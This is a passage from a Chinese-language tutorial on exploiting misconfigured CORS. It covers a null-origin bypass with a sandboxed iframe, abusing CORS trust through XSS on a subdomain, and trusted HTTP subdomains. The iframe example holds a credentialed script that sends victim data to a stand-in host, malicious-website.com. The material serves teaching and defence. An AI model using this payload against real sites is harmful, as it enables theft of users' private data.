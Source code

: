 在这种情况下，攻击者可以使用各种技巧生成 Origin 为 null 的请求以通过白名单，从而获得访问权限。例如，可以使用 `iframe` 沙盒进行跨域请求：
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

### 通过 CORS 信任关系利用 XSS

`CORS` 会在两个域之间建立信任关系，即使 `CORS` 是正确的配置，但是如果某个受信任的网站存在 XSS 漏洞，那么攻击者就可以利用 XSS 漏洞注入脚本，进而从受信任的网站上获取敏感信息。

假设请求为：
```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

如果服务器响应：
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

那么攻击者可以通过 `subdomain.vulnerable-website.com` 网站上的 XSS 漏洞去获取一些敏感数据：
```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```


### 使用配置有问题的 CORS 中断 TLS

假设一个严格使用 HTTPS 的应用程序也通过白名单信任了一个使用 HTTP 的子域。例如，当应用程序收到以下请求时：
```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

应用程序响应：
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

